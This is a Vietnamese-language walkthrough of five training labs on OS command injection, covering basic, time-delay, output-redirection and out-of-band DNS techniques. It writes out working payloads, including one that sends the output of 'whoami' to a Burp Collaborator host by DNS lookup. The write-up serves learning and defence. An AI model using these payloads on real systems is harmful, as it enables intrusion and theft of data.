# Command Injection
## LABS

### Lab: OS command injection, simple case
**Yêu cầu**: Lab có lỗ hổng `OS command injection` trong chức năng kiểm tra tồn kho. Nhiệm vụ: khai thác lỗ hổng để thực thi lệnh `whoami` và lấy tên của người dùng hiện tại trên hệ thống.

**Thực hiện**
- Home page:

- Lỗ hổng ở phần check product stock:


- Kiểm tra gói tin trong Burp. Ban đầu ta hãy thử thay đổi tham số sang các kí tự đặc biệt như `"`, `|`, `&`, ...


- Từ thông báo lỗi ta có thể khẳng tham số này được truyền vào shell. Từ đó ta có thể khai thác với payload như sau `;whoami`


---

### Lab: Blind OS command injection with time delays
**Yêu cầu**: Lab có lỗ hổng `blind OS command injection` trong chức năng feedback. Nhiệm vụ: khai thác lỗ hổng để thực thi lệnh gây trễ 10 giây, xác nhận khả năng thực thi lệnh trên server.

**Thực hiện**
- Trong đề bài đã gợi ý lỗ hổng nằm trong chức năng `feedback` -> Thử nghiệm với việc submit feedback.


- Việc bây giờ là test xem vuln ở đâu. Sau khi phát hiện vuln ở `email` -> hoàn thành 
- Payload `& ping -c 10 127.0.0.1 &`


**Tổng kết**: 
Lỗ hổng OS Command Injection xảy ra khi ứng dụng chèn trực tiếp dữ liệu từ người dùng vào lệnh hệ thống mà không kiểm soát chặt chẽ. Điều này thường gặp ở các hệ thống `tương tác với script, phần mềm bên ngoài hoặc hệ thống cũ` thay vì dùng database.  


---

### Lab: Blind OS command injection with output redirection
**Yêu cầu**: Lab có lỗ hổng `blind OS command injection` trong chức năng feedback, nhưng không hiển thị đầu ra trực tiếp. Nhiệm vụ: lợi dụng `output redirection` để ghi kết quả của lệnh `whoami` vào thư mục `/var/www/img/images/`, sau đó truy cập file qua URL để lấy kết quả và hoàn thành lab.

**Thực hiện**
- Dùng phương pháp time delays để phát hiện lỗ hổng.


- `email` là nơi mà ta có thể time mã vào được. Vì thế hãy thử với lệnh `whoami`. Song vì ở đây không hiện thị ra kết quả nên ta không thấy được thông tin cần tìm. Ta lợi dụng thư mục chứa các tệp tĩnh là nơi giao diện lấy dữ liệu và hiện thị( VD: ảnh, tệp js, tệp css,...).
- Viết kết quả của lệnh `whoami` ra file tại đường dẫn chứa ảnh. Payload ở đây là `||whoami>/var/www/img/images/output.txt||`.
- Sau đó truy bắt gói tin hiện thị hình ảnh và thay đổi tên ảnh thành `output.txt` (LFI):


**Tổng kết**
Trong trường hợp này, bước đầu tiên là chúng ta phải xác định là có lỗ hổng. Sau đó do hàm này không có `echo` cho nên chúng ta không thể đọc được kết quả. Theo hướng dẫn chúng ta sẽ ghi lên một file mà file đó chúng ta có thể đọc được thông qua web. Thường thì nó sẽ là thư mục chứa ảnh được load hoặc các thư mục tĩnh.
Ngoài cách `redirection` này tôi đề xuất 1 cách sử dụng time-based giống cơ chế của sql-injection để nắm được thông tin đầu ra. Song đây là 1 cách khá tốn tài nguyên.

---

### Lab: Blind OS command injection with out-of-band interaction
**Yêu cầu**: Lab có lỗ hổng `blind OS command injection` trong chức năng feedback, nhưng lệnh được thực thi bất đồng bộ và không ảnh hưởng đến phản hồi ứng dụng. Không thể ghi output vào vị trí có thể truy cập, nhưng có thể kích hoạt `out-of-band interaction` bằng cách gửi truy vấn DNS đến `Burp Collaborator`. Nhiệm vụ: khai thác lỗ hổng để thực hiện `DNS lookup` đến `Burp Collaborator` và hoàn thành lab.

**Thực hiện**
- Vẫn như bài lab trên, trước hết ta cần xác định lỗ hổng nằm đâu. Trong trường hợp này không dùng time delay như trước được do cơ chế thực thi bất đồng bộ ( hiểu nôm na là mỗi cái chạy 1 luồng riêng không phải xử lí tuần tự).
- Ở đây lab yêu cầu dùng `Burp Collaborator` và kĩ thuật tấn công `Out-of-band interaction`. Có nghĩa là chúng ta sử dụng 1 kênh bên ngoài dải của server mục tiêu để có thể nhận dữ liệu gửi tới. Để xác định thành lỗ hổng thành công tức ta phải thao túng được shell và gửi tin tới kênh này.


- Tiến hành lệnh `nslookup` tới server collaborator `||nslookup+ik62phfi4dq4snew9i0rmwfw0n6eu7iw.oastify.com||`


- Thử lần lượt cách trường thì ta thấy `email` có thể chèn được lệnh shell. Kết quả thành công thì bên `Collaborator` sẽ có gói tin DNS.


**Tổng kết**
Lỗ hổng `blind OS command injection` cho phép thực thi lệnh hệ thống, nhưng không hiển thị kết quả trực tiếp trong phản hồi. Khi không thể ghi output vào thư mục truy cập được, có thể khai thác bằng cách kích hoạt `out-of-band interaction`, như thực hiện `DNS lookup` đến `Burp Collaborator`. Điều này giúp xác nhận lệnh đã chạy thành công. 

---

### Lab: Blind OS command injection with out-of-band data exfiltration
**Yêu cầu**: Lab có lỗ hổng `blind OS command injection` trong chức năng feedback, nhưng lệnh được thực thi bất đồng bộ và không ảnh hưởng đến phản hồi ứng dụng. Không thể ghi output vào vị trí truy cập được, nhưng có thể khai thác bằng cách `exfiltrate` kết quả thông qua `DNS query` đến `Burp Collaborator`. Nhiệm vụ: thực thi lệnh `whoami`, lấy tên người dùng qua DNS query và nộp kết quả để hoàn thành lab.

**Thực hiện**
- Dùng `nslookup` trước để xác định vị trí lỗ hổng.


- Sau khi phát hiện được vị trí lỗ hổng ở trường `email` ta tiến hành trích xuất data qua kênh bên. 
- Payload `||whoami|nslookup+$(whoami).ik62phfi4dq4snew9i0rmwfw0n6eu7iw.oastify.com||`

**Tổng kết**
Ý tưởng bài này giống lab bên trên. Thay vì chỉ là gửi gói tin `DNS` tới dải ngoài thì đây cần gửi cả dữ liệu trích xuất được tới.
lệnh shell có thể như này: `whoami | nslookup $(whoami).<your-collaborator-subdomain>`
